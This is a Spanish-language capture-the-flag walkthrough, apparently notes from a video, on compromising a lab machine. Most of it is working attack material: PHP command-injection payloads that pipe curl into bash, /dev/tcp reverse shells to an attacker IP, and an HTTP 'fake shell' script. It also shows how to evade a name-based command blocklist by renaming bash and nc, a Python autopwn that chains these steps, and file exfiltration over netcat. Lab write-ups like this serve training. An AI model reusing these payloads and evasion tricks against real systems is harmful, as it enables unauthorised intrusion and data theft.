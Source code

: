 ## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con una pagina html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.28/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. En la web, le damos un curl a nuestra maquina

    ```php
    <?php system("curl 10.10.14.28"); ?>
    ```


Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos la reverse shell 

    ```php
    <?php system("curl 10.10.14.28 | bash"); ?>
    ```

La coneccion se entabla pero el servidor nos expulsa directamente.

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19

Tambien se podria utilizar la heramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Analizando el servidor {-}

```bash
whoami
ifconfig
ls -l
ls -l /home
ls -l /home/xalvas
cat /home/xalvas/user.txt
```

Encontramos el usuario **xalvas** y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el sistema nos expulsa cuando lo hacemos?

El comando `ls -l /home/xalvas` nos muestra ficheros. En el fichero `intrusions` vemos lo siguiente

```bash
cat /home/xalvas/intrusions
```

```{r, echo = FALSE, fig.cap="fichero intrusions", out.width="90%"}
    knitr::include_graphics("images/calamity-intrusions.png")
```

Vemos que el comando `nc` esta BlackListeado y que logea el Proccess Kill en este fichero. El problema de esto es que se puede
que los comandos BlackListeados se controlan con los nombres mismo (no permite `nc, python, bash`). Pero que pasa si copiamos el 
binario bash y que le ponemos un nombre diferente.

1. Nos ponemos en escucha por el puerto 443 en la maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

    ```bash
    cp /bin/bash /dev/shm/s4vitar
    ls /dev/shm/s4vitar
    /dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1
    /dev/shm/s4vitar -c "/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"
    /dev/shm/s4vitar -c '/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'
    ```

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```

### Creacion del autopwn en python {-}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import threading
import time

from pwn import *

def def_handler(sig, frame):
    
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.27/admin.php"
burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    headers = {
        'Cookie': 'adminpowa=noonecares'
    }

    r = requests.get(main_url + "?html=<?php%20system(\"cp%20/bin/bash%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"chmod%20+x%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>%26%20/dev/tcp/10.10.14.20/443%200>%261'\");%20?>", headers=headers)

    print(r.text)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest,args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=10).wait_for_connection()

    shell.interactive()
```

Ya lo podemos lanzar con el comando `python3 autopwn.py`

> [ ! ] Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21


### Investigamos la maquina {-}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero `.wav`. Nos lo enviamos
a nuestra maquina de atacante.

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > recov.wav
    ```

1. En la maquina victima

    ```bash
    cp /bin/nc /dev/shm/transfer
    chmod +x /dev/shm/transfer
    /dev/shm/transfer 10.10.14.20 443 < recov.wav
    ```

Hay otros ficheros de tipo `.wav`, usando la misma tecnica nos lo enviamos tambien.
Chequeamos que los ficheros no sa hayan comprometido durante la tansferencia con `md5sum`. Los ficheros `.wav` son ficheros
de tipo audio y se pueden escuchar con el comando `play recov.wav`

No os asusteis con la musiquita ;)

Escuchando los otros ficheros parece que el fichero `rick.wav` sea la misma cancion y esto es raro. Si le hacemos un `md5sum recov.wav rick.wav`,
vemos que la cancion es la misma pero el **md5sum** no. Quiere decir que la integridad de la data de uno de estos ficheros a sido manipulada.


### Reto de steganografia con Audacity {-}

**Audacity** es una heramienta de audio que se puede instalar con `apt install audacity`. Lo abrimos y cargamos los dos ficheros.
Si nos dan 2 audios que parecen se los mismos pero hemos visto con el **md5sum** que no son iguales, Una cosa que se puede hacer es 
lanzar un audio de manera normal y al mismo tiempo con el segundo audio, invertir la onda del audio. Si hacemos esto y que los dos ficheros
son ciertamente iguales, no tendriamos que escuchar nada. Lo unico, en este caso que se tendria que escuchar seria las diferencias ente
los dos audios.

> [ ! ] Notas para ver como invertir las ondas de un audio, podeis mirar el video al minuto 1:31:00

Ya tenemos una contraseña.

Intentamos ponerle la contraseña al usuario xalvas y entramos

```bash
su xalvas
Password: <la contraseña>
whoami
#Output 
xalvas
```